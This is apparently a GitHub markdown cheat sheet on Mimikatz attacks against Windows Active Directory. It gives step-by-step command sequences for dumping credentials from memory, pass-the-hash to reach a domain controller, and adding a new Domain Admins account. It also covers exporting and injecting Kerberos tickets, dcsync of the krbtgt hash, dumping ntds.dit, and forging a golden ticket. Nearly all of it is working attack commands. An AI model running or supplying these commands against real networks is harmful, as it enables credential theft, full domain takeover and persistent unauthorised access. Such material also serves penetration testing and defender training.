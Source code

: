 # MIMIKATZ

Mimikatz is a very powerfull tool for Windows privilege escalation, lateral movement, credential stuffing and more.

## Pass The Hash

From Local Admin to Domain Admin using Mimikatz and Pass The Hash

This requires a local admin account and that a domain admin to have an open session on the host.

Initial state:

```
cmd> powershell -ep bypass
PS> Enter-PSSession -ComputerName DC01

!!! FAIL !!!
```

Use mimikatz to pass the hash:

```
mimikatz # privilege::debug
mimikatz # token::whomai
mimikatz # log mimilog.txt
mimikatz # sekurlsa::logonpasswords

<view the mimilog.txt and find the ntlm hash>

mimikatz # sekurlsa::pth /user:domain_admin /domain:test.com /ntlm:2B576ACBE6BCFDA7294D6BD18041B8FE
cmd> powershell -ep bypass
PS> Enter-PSSession -ComputerName DC01
!!! SUCCESS !!!
CMD\Documents>whoami
CMD\Documents>hostname
CMD\Documents>exit
cmd> net user new.user Password123! /ADD /DOMAIN
cmd> net group "Domain Admins" new.user /ADD /DOMAIN
```

Voila! The new.user account is now domain admin.

---

## Pass The Ticket

Export and import a ticket using mimikatz

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
mimikatz # kerberos::ptt c:\users\..\[]admin@krbtgt.lab1.kirbi
mimikatz # exit
PS> klist
```

## Creating a Golden Ticket

From a ntds dump, it is possible to create a Golden Ticket. This is very, very dangerous as it requires 2x password change.

### Create a dump:

Need to run this on DC as domain admin:

```
mimikatz # lsadump::dcsync /user:krbtgt
```
### From that dump, create the golden ticket

Note your SID and get the hash:

```
C:\>whomai /user
<note the SID, without the last 4 digit RID>

C:\>python secretdump.py -ntds "C:\ntds.dit" -system "C:\ntds-dump\registry\SYSTEM" -outputfile "C:\hash.txt" LOCAL
```

Use mimikatz

```
mimikatz # privilege::debug
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:JohnDoe /id:500 /rc4:"<from hash.txt>" /sid:"<from prev cmd>" /domain:test.com /ptt
```
